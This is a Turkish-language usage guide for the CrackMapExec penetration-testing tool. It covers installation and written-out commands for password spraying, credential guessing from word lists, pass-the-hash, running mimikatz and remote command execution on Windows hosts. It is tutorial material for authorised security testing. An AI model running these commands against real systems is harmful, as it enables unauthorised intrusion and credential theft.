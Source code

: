 # CrackMapExec Kullanım Kılavuzu

## Giriş
CrackMapExec (CME), pen-test ve red team çalışmalarında kullanılan güçlü bir araçtır. Özellikle Active Directory ortamlarında kullanıcı ve servis hesaplarını test etmek, güvenlik açıklarını belirlemek ve çeşitli istismarlar gerçekleştirmek için idealdir. Bu kılavuz, CrackMapExec aracının temel işlevlerini ve kullanımını detaylı bir şekilde açıklamaktadır.

---

## Kurulum
### Gereksinimler
- Python 3.7+
- pip

### Yükleme
CrackMapExec'i yüklemek için aşağıdaki adımları takip edin:

```bash
# Gerekli bağımlılıkları yükleyin
sudo apt update && sudo apt install -y python3-pip libssl-dev libffi-dev

# CME'yi yükleyin
pip3 install crackmapexec

# Yükleme başarılı mı kontrol edin
cme --version
```

---

## Temel Kullanım
CrackMapExec'in genel komut yapısı şu şekildedir:

```bash
cme <protokol> <hedef> -u <kullanıcı> -p <şifre> [opsiyonlar]
```

- `<protokol>`: smb, ldap, ssh, winrm gibi protokol türleri.
- `<hedef>`: IP adresi, ağ bloğu veya hostname.
- `-u`: Kullanıcı adı.
- `-p`: Şifre veya şifre dosyası.

### Örnek:
```bash
cme smb 192.168.1.0/24 -u admin -p password123
```

Bu komut, belirtilen ağda SMB protokolü kullanarak `admin` kullanıcı adı ve `password123` şifresi ile giriş yapmayı dener.

---

## Sık Kullanılan Komutlar

### 1. Bilgi Toplama
Hedef sistem hakkında bilgi toplamak için kullanılabilir.

#### SMB Versiyonu Tespiti:
```bash
cme smb 192.168.1.10 --shares
```

#### İşletim Sistemi Bilgisi:
```bash
cme smb 192.168.1.10 -u guest -p ""
```

### 2. Kimlik Doğrulama Testleri
#### Kullanıcı ve Şifre ile Test:
```bash
cme smb 192.168.1.10 -u admin -p password123
```

#### Kullanıcı ve Şifre Dosyası ile Test:
```bash
cme smb 192.168.1.10 -u users.txt -p passwords.txt
```

### 3. Modüller
CrackMapExec, çeşitli modülleri destekler. Bunları görmek için:

```bash
cme smb --modules
```

#### Örnek Modül Kullanımı:
```bash
cme smb 192.168.1.10 -u admin -p password123 -M mimikatz
```
Bu komut, hedef makinede `mimikatz` modülünü çalıştırır.

### 4. Password Spraying
Birden fazla hedef üzerinde aynı kullanıcı adı ve şifreyi test etmek için kullanılır.

```bash
cme smb 192.168.1.0/24 -u admin -p Winter2025!
```

### 5. Hash Passing
NTLM hash kullanarak kimlik doğrulama yapabilirsiniz.

```bash
cme smb 192.168.1.10 -u admin -H aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

### 6. Komut Çalıştırma
#### Windows Komutları Çalıştırma:
```bash
cme smb 192.168.1.10 -u admin -p password123 --exec-method smbexec -x "whoami"
```

#### PowerShell Komutları Çalıştırma:
```bash
cme smb 192.168.1.10 -u admin -p password123 --exec-method wmiexec -x "powershell -Command Get-Process"
```

---

## İpuçları
- **Timeout Ayarı**: Ağ bağlantılarında gecikme yaşanıyorsa timeout süresini artırabilirsiniz:
  ```bash
  cme smb 192.168.1.10 -u admin -p password123 --timeout 30
  ```

- **Verbose Mod**: Daha detaylı çıktı almak için `-v` seçeneğini kullanın:
  ```bash
  cme smb 192.168.1.10 -u admin -p password123 -v
  ```

- **Loglama**: Çıktıları bir dosyaya kaydetmek için:
  ```bash
  cme smb 192.168.1.10 -u admin -p password123 --log output.log
  ```

---

## Faydalı Kaynaklar
- [Resmi Dokümantasyon](https://github.com/byt3bl33d3r/CrackMapExec)
- [Active Directory Hacking Kılavuzu](https://exploitart.ist)

---

## Uyarılar
- CrackMapExec'i yalnızca yasal ve izin verilen durumlarda kullanın. Yasadışı kullanım ciddi cezalarla sonuçlanabilir.

---

Bu kılavuz, CrackMapExec ile güvenlik testleri yaparken size yol gösterecektir. Sorularınız veya önerileriniz için lütfen benimle iletişime geçin.
